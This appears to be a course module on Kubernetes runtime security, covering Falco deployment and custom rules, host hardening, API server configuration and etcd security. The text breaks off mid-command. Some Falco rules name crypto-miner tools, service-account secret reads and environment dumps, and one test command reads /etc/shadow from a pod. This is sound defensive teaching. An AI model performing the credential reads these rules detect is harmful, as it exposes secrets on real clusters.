

# Module 11: Runtime Security

## Overview

**Estimated Time:** 8-9 hours

**Module Type:** Advanced Security Deep Dive

**Prerequisites:**
- Module 06 - Pod Security
- Module 08 - Observability and Monitoring
- Module 10 - Network Security
- Understanding of Linux kernel security, system calls, and threat detection
- Familiarity with security event monitoring and SIEM concepts

Runtime security focuses on detecting and preventing threats during container and application execution. This module covers runtime threat detection principles, Falco deployment and custom rule creation, comprehensive host and control plane hardening, etcd security, and real-world threat scenarios. Based on NIST SP 800-190, CIS Benchmarks, and CNCF runtime security best practices.

---

## Learning Objectives

By the end of this module, you will be able to:

1. Understand runtime threat detection principles and methodologies
2. Deploy and configure Falco for Kubernetes security monitoring
3. Create custom Falco rules for application-specific threats
4. Implement comprehensive host hardening (kernel parameters, sysctl)
5. Harden the Kubernetes API server with advanced configurations
6. Secure etcd with encryption at rest, TLS, and access controls
7. Implement kubelet security hardening best practices
8. Detect and respond to runtime security events
9. Analyze security alerts and triage threats
10. Design defense-in-depth runtime security architectures

---

## 1. Runtime Threat Detection Principles

### 1.1 Runtime Security Landscape



**Key Concepts:**

1. **System Call Monitoring**
   - Intercepts kernel syscalls using eBPF or kernel modules
   - Detects suspicious patterns (privilege escalation, file access)
   - Low overhead, high fidelity detection

2. **Behavioral Analysis**
   - Baseline normal application behavior
   - Detect anomalies and deviations
   - ML-based detection for zero-day threats

3. **Container-Aware Security**
   - Understands container boundaries and namespaces
   - Correlates events with Kubernetes metadata
   - Provides context-rich alerts

4. **Defense in Depth**
   - Multiple detection layers
   - Prevention at build time, detection at runtime
   - Automated response and remediation

### 1.2 Common Runtime Threats

**Category 1: Container Breakouts**
- Exploiting kernel vulnerabilities
- Abusing privileged containers
- Namespace escape techniques
- Exploiting container runtime (containerd, CRI-O)

**Category 2: Malicious Activities**
- Cryptocurrency mining
- Data exfiltration
- Reverse shells and C2 communication
- Lateral movement within cluster

**Category 3: Misconfigurations**
- Sensitive file access (/etc/shadow, SSH keys)
- Unnecessary privilege usage
- Insecure network connections
- Credential theft

**Category 4: Supply Chain Attacks**
- Malicious container images
- Compromised base images
- Backdoored dependencies
- Typosquatting attacks

### 1.3 Detection vs Prevention Philosophy

**Prevention (Build Time):**
```yaml
# Image scanning, admission control, policy enforcement
- Image vulnerability scanning
- Admission webhooks (OPA, Kyverno)
- PodSecurityStandards enforcement
- Network policies
- RBAC restrictions
```

**Detection (Runtime):**
```yaml
# Real-time monitoring and threat detection
- System call monitoring (Falco)
- Behavioral anomaly detection
- File integrity monitoring
- Network traffic analysis
- Audit log analysis
```

**Best Practice:** Use both prevention and detection. Prevention reduces attack surface, detection catches what prevention misses.

---

## 2. Falco Installation and Configuration

### 2.1 Falco Architecture

**Components:**

1. **Kernel Module or eBPF Probe**
   - Captures system events at kernel level
   - Low overhead, high performance
   - eBPF preferred for modern kernels (4.14+)

2. **Falco Engine**
   - Parses and evaluates rules
   - Enriches events with Kubernetes metadata
   - Generates alerts based on rule matches

3. **Output Channels**
   - stdout/stderr
   - Syslog
   - HTTP/HTTPS endpoints
   - gRPC API
   - File output

### 2.2 Installing Falco on Kubernetes

**Method 1: Helm Chart (Recommended)**

```bash
# Add Falco Helm repository
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update

# Create namespace
kubectl create namespace falco

# Install Falco with eBPF driver
helm install falco falcosecurity/falco \
  --namespace falco \
  --set driver.kind=ebpf \
  --set falco.grpc.enabled=true \
  --set falco.grpcOutput.enabled=true \
  --set falco.jsonOutput=true \
  --set falco.logLevel=info \
  --set falco.priority=debug \
  --set auditLog.enabled=true \
  --set resources.requests.cpu=200m \
  --set resources.requests.memory=512Mi \
  --set resources.limits.cpu=1000m \
  --set resources.limits.memory=1Gi

# Verify installation
kubectl get pods -n falco
kubectl logs -n falco -l app.kubernetes.io/name=falco
```

**Method 2: DaemonSet Manifest**

```yaml
# falco-daemonset.yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: falco
  namespace: falco
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: falco
rules:
- apiGroups: [""]
  resources: ["*"]
  verbs: ["get", "list", "watch"]
- apiGroups: ["apps"]
  resources: ["*"]
  verbs: ["get", "list", "watch"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: falco
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: falco
subjects:
- kind: ServiceAccount
  name: falco
  namespace: falco
---
apiVersion: v1
kind: ConfigMap
metadata:
  name: falco-config
  namespace: falco
data:
  falco.yaml: |
    json_output: true
    json_include_output_property: true
    log_stderr: true
    log_syslog: false
    log_level: info
    priority: debug

    libs_logger:
      enabled: true
      severity: info

    rules_file:
      - /etc/falco/falco_rules.yaml
      - /etc/falco/falco_rules.local.yaml
      - /etc/falco/k8s_audit_rules.yaml
      - /etc/falco/rules.d

    plugins:
      - name: k8saudit
        library_path: libk8saudit.so
        init_config: ""
        open_params: "http://:9765/k8s-audit"
      - name: cloudtrail
        library_path: libcloudtrail.so
      - name: json
        library_path: libjson.so

    load_plugins: [k8saudit, json]

    stdout_output:
      enabled: true

    syslog_output:
      enabled: false

    file_output:
      enabled: true
      keep_alive: false
      filename: /var/log/falco/events.log

    http_output:
      enabled: false
      url: "http://falcosidekick:2801"

    grpc:
      enabled: true
      bind_address: "0.0.0.0:5060"
      threadiness: 8

    grpc_output:
      enabled: true
---
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: falco
  namespace: falco
  labels:
    app: falco
spec:
  selector:
    matchLabels:
      app: falco
  template:
    metadata:
      labels:
        app: falco
    spec:
      serviceAccountName: falco
      hostNetwork: true
      hostPID: true
      tolerations:
      - effect: NoSchedule
        key: node-role.kubernetes.io/master
      - effect: NoSchedule
        key: node-role.kubernetes.io/control-plane
      containers:
      - name: falco
        image: falcosecurity/falco-no-driver:0.37.1
        imagePullPolicy: IfNotPresent
        securityContext:
          privileged: true
        args:
          - /usr/bin/falco
          - --cri
          - /run/containerd/containerd.sock
          - --cri
          - /run/crio/crio.sock
          - -K
          - /var/run/secrets/kubernetes.io/serviceaccount/token
          - -k
          - https://kubernetes.default
          - -pk
        env:
        - name: FALCO_BPF_PROBE
          value: ""
        - name: FALCO_K8S_NODE_NAME
          valueFrom:
            fieldRef:
              fieldPath: spec.nodeName
        volumeMounts:
        - mountPath: /host/var/run/docker.sock
          name: docker-socket
        - mountPath: /host/run/containerd/containerd.sock
          name: containerd-socket
        - mountPath: /host/run/crio/crio.sock
          name: crio-socket
        - mountPath: /host/dev
          name: dev-fs
          readOnly: true
        - mountPath: /host/proc
          name: proc-fs
          readOnly: true
        - mountPath: /host/boot
          name: boot-fs
          readOnly: true
        - mountPath: /host/lib/modules
          name: lib-modules
          readOnly: true
        - mountPath: /host/usr
          name: usr-fs
          readOnly: true
        - mountPath: /etc/falco
          name: config-volume
        - mountPath: /var/log/falco
          name: log-volume
        resources:
          requests:
            cpu: 200m
            memory: 512Mi
          limits:
            cpu: 1000m
            memory: 1Gi
      volumes:
      - name: docker-socket
        hostPath:
          path: /var/run/docker.sock
      - name: containerd-socket
        hostPath:
          path: /run/containerd/containerd.sock
      - name: crio-socket
        hostPath:
          path: /run/crio/crio.sock
      - name: dev-fs
        hostPath:
          path: /dev
      - name: proc-fs
        hostPath:
          path: /proc
      - name: boot-fs
        hostPath:
          path: /boot
      - name: lib-modules
        hostPath:
          path: /lib/modules
      - name: usr-fs
        hostPath:
          path: /usr
      - name: config-volume
        configMap:
          name: falco-config
      - name: log-volume
        hostPath:
          path: /var/log/falco
          type: DirectoryOrCreate
```

### 2.3 Falco Rules Overview

**Rule Structure:**

```yaml
# Rule anatomy
- rule: Rule Name
  desc: Description of what this rule detects
  condition: (evt.type = open and fd.name = /etc/shadow)
  output: "Suspicious file opened (user=%user.name command=%proc.cmdline file=%fd.name container=%container.name)"
  priority: WARNING
  tags: [filesystem, mitre_credential_access]
```

**Default Rules Categories:**

1. **Process Execution**
   - Unexpected processes in containers
   - Privilege escalation attempts
   - Shell spawned in container

2. **File System Access**
   - Sensitive file reads
   - Write to system directories
   - Binary modifications

3. **Network Activity**
   - Unexpected outbound connections
   - Reverse shell detection
   - C2 communication patterns

4. **System Calls**
   - Dangerous syscalls (ptrace, mount)
   - Container runtime interaction
   - Kernel module loading

### 2.4 Testing Falco Detection

**Test 1: Shell in Container**

```bash
# This should trigger "Terminal shell in container"
kubectl run test-shell --image=nginx -it --rm -- /bin/bash

# Check Falco logs
kubectl logs -n falco -l app=falco | grep "Terminal shell"
```

**Test 2: Read Sensitive File**

```bash
# Create a pod that reads /etc/shadow
kubectl run test-shadow --image=busybox --rm -it -- cat /etc/shadow

# Check Falco logs
kubectl logs -n falco -l app=falco | grep "shadow"
```

**Test 3: Network Connection**

```bash
# Spawn a pod and make outbound connection
kubectl run test-network --image=nicolaka/netshoot --rm -it -- curl http://example.com

# Check Falco logs
kubectl logs -n falco -l app=falco | grep "Outbound"
```

---

## 3. Custom Falco Rules for Kubernetes

### 3.1 Creating Application-Specific Rules

**Example 1: Detect Unauthorized Database Access**

```yaml
# custom-rules.yaml
- rule: Unauthorized Database Access Attempt
  desc: Detect connection attempts to database from non-whitelisted pods
  condition: >
    evt.type = connect and
    fd.sip != "0.0.0.0" and
    fd.sport = 5432 and
    not k8s.pod.label.app in (api-server, backend-service)
  output: >
    Unauthorized pod attempting database connection
    (pod=%k8s.pod.name namespace=%k8s.ns.name
    source=%fd.cip:%fd.cport dest=%fd.sip:%fd.sport
    user=%user.name command=%proc.cmdline)
  priority: CRITICAL
  tags: [database, access_control, network]

- rule: Database Admin Command Executed
  desc: Detect execution of database admin commands in production
  condition: >
    spawned_process and
    k8s.ns.name = "production" and
    proc.name in (psql, mysql, mongosh) and
    (proc.args contains "DROP" or
     proc.args contains "DELETE" or
     proc.args contains "TRUNCATE" or
     proc.args contains "ALTER")
  output: >
    Dangerous database command executed in production
    (command=%proc.cmdline user=%user.name pod=%k8s.pod.name
    namespace=%k8s.ns.name container=%container.name)
  priority: CRITICAL
  tags: [database, production, data_integrity]
```

**Example 2: Detect Crypto Mining**

```yaml
- rule: Cryptocurrency Mining Activity Detected
  desc: Detect common cryptocurrency mining tools and patterns
  condition: >
    spawned_process and
    (proc.name in (xmrig, ethminer, cgminer, minerd, cpuminer) or
     proc.cmdline contains "stratum+tcp" or
     proc.cmdline contains "cryptonight" or
     proc.cmdline contains "randomx")
  output: >
    Cryptocurrency mining detected
    (process=%proc.name command=%proc.cmdline
    user=%user.name container=%container.name
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: CRITICAL
  tags: [malware, crypto_mining, resource_abuse]

- rule: Suspicious CPU Usage Pattern
  desc: Detect sustained high CPU usage typical of mining
  condition: >
    evt.type = procexit and
    evt.cpu.usage > 90 and
    evt.duration > 300000000000
  output: >
    Suspicious sustained high CPU usage
    (process=%proc.name cpu=%evt.cpu.usage duration=%evt.duration
    container=%container.name pod=%k8s.pod.name)
  priority: WARNING
  tags: [performance, crypto_mining]
```

**Example 3: Detect Secret Access**

```yaml
- rule: Secret File Read by Unprivileged Container
  desc: Detect reading of Kubernetes secret files by non-system pods
  condition: >
    open_read and
    fd.name glob "/var/run/secrets/kubernetes.io/serviceaccount/*" and
    not k8s.pod.name startswith "kube-" and
    not k8s.ns.name in (kube-system, kube-public, kube-node-lease)
  output: >
    Unprivileged pod reading Kubernetes secrets
    (file=%fd.name pod=%k8s.pod.name namespace=%k8s.ns.name
    user=%user.name command=%proc.cmdline)
  priority: WARNING
  tags: [credentials, secrets, kubernetes]

- rule: Environment Variable Dump Attempt
  desc: Detect attempts to dump environment variables containing secrets
  condition: >
    spawned_process and
    (proc.cmdline contains "printenv" or
     proc.cmdline contains "env" or
     proc.cmdline contains "set") and
    proc.pname in (bash, sh, dash, zsh)
  output: >
    Possible environment variable enumeration
    (command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: INFO
  tags: [credentials, enumeration]
```

**Example 4: Kubernetes Security Context**

```yaml
- rule: Pod with Dangerous Capabilities Started
  desc: Detect pods starting with dangerous Linux capabilities
  condition: >
    evt.type = container and
    container.privileged = false and
    (container.cap_permitted contains CAP_SYS_ADMIN or
     container.cap_permitted contains CAP_SYS_PTRACE or
     container.cap_permitted contains CAP_SYS_MODULE or
     container.cap_permitted contains CAP_DAC_READ_SEARCH or
     container.cap_permitted contains CAP_DAC_OVERRIDE)
  output: >
    Container started with dangerous capabilities
    (capabilities=%container.cap_permitted
    container=%container.name pod=%k8s.pod.name
    namespace=%k8s.ns.name image=%container.image)
  priority: WARNING
  tags: [container, capabilities, privilege]

- rule: HostPath Volume Mount Detected
  desc: Detect containers mounting sensitive host paths
  condition: >
    evt.type = container and
    (container.mount contains "/var/run/docker.sock" or
     container.mount contains "/proc" or
     container.mount contains "/sys" or
     container.mount contains "/etc" or
     container.mount contains "/root" or
     container.mount contains "/boot")
  output: >
    Container with sensitive host path mount
    (mount=%container.mount container=%container.name
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: CRITICAL
  tags: [container, volumes, host_access]
```

### 3.2 Deploying Custom Rules

```bash
# Create ConfigMap with custom rules
kubectl create configmap falco-custom-rules \
  --from-file=custom-rules.yaml \
  -n falco

# Update Falco DaemonSet to mount custom rules
kubectl patch daemonset falco -n falco --type=json -p='[
  {
    "op": "add",
    "path": "/spec/template/spec/volumes/-",
    "value": {
      "name": "custom-rules",
      "configMap": {"name": "falco-custom-rules"}
    }
  },
  {
    "op": "add",
    "path": "/spec/template/spec/containers/0/volumeMounts/-",
    "value": {
      "name": "custom-rules",
      "mountPath": "/etc/falco/rules.d"
    }
  }
]'

# Restart Falco to load new rules
kubectl rollout restart daemonset/falco -n falco
```

### 3.3 Rule Tuning and Optimization

**Reducing False Positives:**

```yaml
# Use exception lists
- list: allowed_shell_containers
  items: [debug-pod, troubleshooting, admin-tools]

- rule: Shell Spawned in Container (Optimized)
  desc: A shell was spawned in a container (with exceptions)
  condition: >
    spawned_process and
    container and
    proc.name in (bash, sh, dash, zsh) and
    not k8s.pod.name in (allowed_shell_containers) and
    not k8s.ns.name in (kube-system, development, testing)
  output: Shell spawned (pod=%k8s.pod.name command=%proc.cmdline)
  priority: WARNING
  tags: [shell, container]
```

**Rule Performance Considerations:**

1. **Use specific conditions** - Avoid broad rules that match frequently
2. **Leverage indexes** - Use indexed fields (evt.type, fd.name)
3. **Order conditions** - Put most selective conditions first
4. **Use lists for reusability** - Create macro lists for common patterns
5. **Test in dev first** - Validate rules before production deployment

---

## 4. Host Hardening

### 4.1 Kernel Security Parameters

**Sysctl Hardening Configuration:**

```bash
# /etc/sysctl.d/99-kubernetes-hardening.conf

# Kernel hardening
kernel.kptr_restrict = 2                    # Hide kernel pointers
kernel.dmesg_restrict = 1                   # Restrict dmesg access
kernel.yama.ptrace_scope = 1                # Restrict ptrace
kernel.perf_event_paranoid = 3              # Restrict perf events
kernel.unprivileged_bpf_disabled = 1        # Disable unprivileged eBPF
kernel.kexec_load_disabled = 1              # Disable kexec
kernel.modules_disabled = 1                 # Disable module loading (after boot)
kernel.sysrq = 0                            # Disable SysRq

# Network security
net.ipv4.conf.all.rp_filter = 1             # Enable reverse path filtering
net.ipv4.conf.default.rp_filter = 1
net.ipv4.conf.all.accept_source_route = 0   # Disable source routing
net.ipv4.conf.default.accept_source_route = 0
net.ipv6.conf.all.accept_source_route = 0
net.ipv6.conf.default.accept_source_route = 0
net.ipv4.conf.all.send_redirects = 0        # Disable ICMP redirects
net.ipv4.conf.default.send_redirects = 0
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0
net.ipv6.conf.all.accept_redirects = 0
net.ipv6.conf.default.accept_redirects = 0
net.ipv4.conf.all.secure_redirects = 0
net.ipv4.conf.default.secure_redirects = 0
net.ipv4.icmp_echo_ignore_broadcasts = 1    # Ignore broadcast pings
net.ipv4.icmp_ignore_bogus_error_responses = 1
net.ipv4.tcp_syncookies = 1                 # Enable SYN flood protection
net.ipv4.tcp_timestamps = 0                 # Disable TCP timestamps
net.ipv4.conf.all.log_martians = 1          # Log suspicious packets
net.ipv4.conf.default.log_martians = 1
net.ipv6.conf.all.disable_ipv6 = 0          # Keep IPv6 enabled if needed
net.ipv6.conf.all.forwarding = 1            # Required for Kubernetes

# Memory and process limits
vm.overcommit_memory = 1                    # Required for Redis, Kubernetes
vm.panic_on_oom = 0                         # Don't panic on OOM
vm.swappiness = 0                           # Minimize swap usage
fs.file-max = 2097152                       # Increase file descriptors
fs.inotify.max_user_watches = 524288        # For large clusters
fs.inotify.max_user_instances = 512

# Apply settings
sudo sysctl -p /etc/sysctl.d/99-kubernetes-hardening.conf
```

### 4.2 AppArmor Profiles

**Kubernetes Node AppArmor Profile:**

```bash
# /etc/apparmor.d/kubernetes-node

#include <tunables/global>

profile kubernetes-node flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>

  # Allow necessary operations
  network,
  capability,

  # File system restrictions
  /etc/kubernetes/** r,
  /var/lib/kubelet/** rw,
  /var/lib/etcd/** rw,
  /var/log/** w,
  /run/containerd/** rw,
  /run/kubernetes/** rw,
  /opt/cni/bin/** ix,

  # Deny dangerous operations
  deny /proc/sys/kernel/core_pattern w,
  deny /proc/sysrq-trigger w,
  deny /proc/sys/net/** w,
  deny /sys/devices/virtual/powercap/** w,

  # Block access to sensitive files
  deny /etc/shadow r,
  deny /etc/gshadow r,
  deny /root/.ssh/** r,

  # Container runtime
  /usr/bin/containerd ix,
  /usr/bin/runc ix,

  # Kubernetes binaries
  /usr/bin/kubelet ix,
  /usr/bin/kubectl ix,
}

# Load profile
sudo apparmor_parser -r /etc/apparmor.d/kubernetes-node
```

### 4.3 SELinux Policies

**SELinux Configuration for Kubernetes:**

```bash
# Set SELinux to enforcing
sudo setenforce 1

# Ensure persistent setting
sudo sed -i 's/^SELINUX=.*/SELINUX=enforcing/' /etc/selinux/config

# Kubernetes-specific SELinux booleans
sudo setsebool -P container_manage_cgroup on
sudo setsebool -P virt_use_nfs on
sudo setsebool -P virt_sandbox_use_all_caps on

# Custom SELinux policy for Kubernetes (kubernetes.te)
module kubernetes 1.0;

require {
    type container_t;
    type container_runtime_t;
    type svirt_sandbox_file_t;
    class file { read write open };
    class capability { sys_admin net_admin };
}

# Allow container runtime to manage containers
allow container_runtime_t container_t:process { transition signal kill };
allow container_runtime_t svirt_sandbox_file_t:file { read write open };
allow container_t self:capability { sys_admin net_admin };

# Compile and load policy
checkmodule -M -m -o kubernetes.mod kubernetes.te
semodule_package -o kubernetes.pp -m kubernetes.mod
sudo semodule -i kubernetes.pp
```

### 4.4 Secure Boot and Kernel Configuration

**GRUB Configuration Hardening:**

```bash
# /etc/default/grub additions

# Enable kernel hardening features
GRUB_CMDLINE_LINUX="audit=1 audit_backlog_limit=8192 slub_debug=P page_poison=1 vsyscall=none"

# Update GRUB
sudo update-grub  # Debian/Ubuntu
sudo grub2-mkconfig -o /boot/grub2/grub.cfg  # RHEL/CentOS
```

---

## 5. API Server Hardening

### 5.1 Authentication Configuration

**Advanced API Server Authentication:**

```yaml
# /etc/kubernetes/manifests/kube-apiserver.yaml
apiVersion: v1
kind: Pod
metadata:
  name: kube-apiserver
  namespace: kube-system
spec:
  containers:
  - name: kube-apiserver
    command:
    - kube-apiserver

    # Authentication
    - --anonymous-auth=false
    - --client-ca-file=/etc/kubernetes/pki/ca.crt
    - --token-auth-file=/etc/kubernetes/pki/tokens.csv
    - --oidc-issuer-url=https://accounts.example.com
    - --oidc-client-id=kubernetes
    - --oidc-username-claim=email
    - --oidc-groups-claim=groups
    - --oidc-ca-file=/etc/kubernetes/pki/oidc-ca.crt
    - --service-account-key-file=/etc/kubernetes/pki/sa.pub
    - --service-account-signing-key-file=/etc/kubernetes/pki/sa.key
    - --service-account-issuer=https://kubernetes.default.svc.cluster.local

    # Authorization
    - --authorization-mode=Node,RBAC
    - --enable-admission-plugins=NodeRestriction,PodSecurityPolicy,PodSecurityAdmission,AlwaysPullImages,SecurityContextDeny,EventRateLimit,ValidatingAdmissionWebhook,MutatingAdmissionWebhook

    # Audit logging
    - --audit-log-path=/var/log/kubernetes/audit.log
    - --audit-log-maxage=30
    - --audit-log-maxbackup=10
    - --audit-log-maxsize=100
    - --audit-policy-file=/etc/kubernetes/audit-policy.yaml
    - --audit-webhook-config-file=/etc/kubernetes/audit-webhook.yaml
    - --audit-webhook-batch-max-size=100

    # Encryption at rest
    - --encryption-provider-config=/etc/kubernetes/encryption-config.yaml

    # TLS configuration
    - --tls-cert-file=/etc/kubernetes/pki/apiserver.crt
    - --tls-private-key-file=/etc/kubernetes/pki/apiserver.key
    - --tls-min-version=VersionTLS13
    - --tls-cipher-suites=TLS_AES_128_GCM_SHA256,TLS_AES_256_GCM_SHA384,TLS_CHACHA20_POLY1305_SHA256

    # Security
    - --insecure-port=0
    - --secure-port=6443
    - --bind-address=0.0.0.0
    - --profiling=false
    - --enable-bootstrap-token-auth=false
    - --kubelet-certificate-authority=/etc/kubernetes/pki/ca.crt
    - --kubelet-client-certificate=/etc/kubernetes/pki/apiserver-kubelet-client.crt
    - --kubelet-client-key=/etc/kubernetes/pki/apiserver-kubelet-client.key
    - --requestheader-client-ca-file=/etc/kubernetes/pki/front-proxy-ca.crt
    - --proxy-client-cert-file=/etc/kubernetes/pki/front-proxy-client.crt
    - --proxy-client-key-file=/etc/kubernetes/pki/front-proxy-client.key

    # Rate limiting
    - --max-requests-inflight=400
    - --max-mutating-requests-inflight=200
    - --event-ttl=1h
```

### 5.2 API Server Network Security

**Firewall Rules for API Server:**

```bash
#!/bin/bash
# api-server-firewall.sh

# Flush existing rules
iptables -F
iptables -X

# Default policies
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# Allow loopback
iptables -A INPUT -i lo -j ACCEPT

# Allow established connections
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# Allow API server port from control plane nodes only
iptables -A INPUT -p tcp --dport 6443 -s 10.0.1.0/24 -j ACCEPT

# Allow etcd communication between control plane nodes
iptables -A INPUT -p tcp --dport 2379:2380 -s 10.0.1.0/24 -j ACCEPT

# Allow kubelet API from control plane
iptables -A INPUT -p tcp --dport 10250 -s 10.0.1.0/24 -j ACCEPT

# Drop everything else
iptables -A INPUT -j LOG --log-prefix "IPTABLES-DROPPED: "
iptables -A INPUT -j DROP

# Save rules
iptables-save > /etc/iptables/rules.v4
```

### 5.3 Admission Control Hardening

**Event Rate Limit Configuration:**

```yaml
# /etc/kubernetes/eventconfig.yaml
apiVersion: eventratelimit.admission.k8s.io/v1alpha1
kind: Configuration
limits:
- type: Namespace
  qps: 50
  burst: 100
  cacheSize: 2000
- type: User
  qps: 10
  burst: 50
- type: Server
  qps: 5000
  burst: 20000
```

---

## 6. etcd Security

### 6.1 etcd TLS Configuration

**etcd with mTLS:**

```yaml
# /etc/kubernetes/manifests/etcd.yaml
apiVersion: v1
kind: Pod
metadata:
  name: etcd
  namespace: kube-system
spec:
  containers:
  - name: etcd
    image: registry.k8s.io/etcd:3.5.12-0
    command:
    - etcd
    - --name=etcd-1
    - --data-dir=/var/lib/etcd

    # Client TLS
    - --cert-file=/etc/kubernetes/pki/etcd/server.crt
    - --key-file=/etc/kubernetes/pki/etcd/server.key
    - --client-cert-auth=true
    - --trusted-ca-file=/etc/kubernetes/pki/etcd/ca.crt
    - --listen-client-urls=https://0.0.0.0:2379
    - --advertise-client-urls=https://10.0.1.10:2379

    # Peer TLS
    - --peer-cert-file=/etc/kubernetes/pki/etcd/peer.crt
    - --peer-key-file=/etc/kubernetes/pki/etcd/peer.key
    - --peer-client-cert-auth=true
    - --peer-trusted-ca-file=/etc/kubernetes/pki/etcd/ca.crt
    - --listen-peer-urls=https://0.0.0.0:2380
    - --initial-advertise-peer-urls=https://10.0.1.10:2380

    # Cluster configuration
    - --initial-cluster=etcd-1=https://10.0.1.10:2380,etcd-2=https://10.0.1.11:2380,etcd-3=https://10.0.1.12:2380
    - --initial-cluster-state=new
    - --initial-cluster-token=etcd-cluster-1

    # Security
    - --cipher-suites=TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256,TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384
    - --auto-tls=false
    - --peer-auto-tls=false

    # Performance and reliability
    - --heartbeat-interval=100
    - --election-timeout=1000
    - --snapshot-count=10000
    - --max-snapshots=5
    - --max-wals=5
    - --quota-backend-bytes=8589934592  # 8GB

    volumeMounts:
    - name: etcd-data
      mountPath: /var/lib/etcd
    - name: etcd-certs
      mountPath: /etc/kubernetes/pki/etcd
      readOnly: true

  hostNetwork: true
  volumes:
  - name: etcd-data
    hostPath:
      path: /var/lib/etcd
      type: DirectoryOrCreate
  - name: etcd-certs
    hostPath:
      path: /etc/kubernetes/pki/etcd
      type: Directory
```

### 6.2 Encryption at Rest

**Encryption Configuration:**

```yaml
# /etc/kubernetes/encryption-config.yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
  - resources:
      - secrets
      - configmaps
    providers:
      # Use KMS provider (recommended for production)
      - kms:
          name: aws-kms
          endpoint: unix:///var/run/kmsplugin/socket.sock
          cachesize: 1000
          timeout: 3s
      # Fallback to AES-CBC
      - aescbc:
          keys:
            - name: key1
              secret: <base64-encoded-32-byte-key>
            - name: key2
              secret: <base64-encoded-32-byte-key>
      # Identity provider for reading old unencrypted data
      - identity: {}
```

**Generate encryption keys:**

```bash
# Generate 32-byte random key
head -c 32 /dev/urandom | base64

# Update encryption config
kubectl --kubeconfig=/etc/kubernetes/admin.conf \
  create secret generic encryption-config \
  --from-file=/etc/kubernetes/encryption-config.yaml \
  -n kube-system

# Restart API server to apply
sudo systemctl restart kubelet
```

**Verify encryption:**

```bash
# Create a test secret
kubectl create secret generic test-secret --from-literal=key=value

# Read from etcd directly
ETCDCTL_API=3 etcdctl \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  get /registry/secrets/default/test-secret | hexdump -C

# Should see encrypted data, not plaintext "value"
```

### 6.3 etcd Access Control

**etcd RBAC Configuration:**

```bash
# Enable etcd authentication
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  auth enable

# Create root user
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  user add root --interactive

# Create API server user
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  user add apiserver --no-password

# Create role for API server
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  role add apiserver-role

# Grant permissions
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  role grant-permission apiserver-role readwrite /registry/

# Assign role to user
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
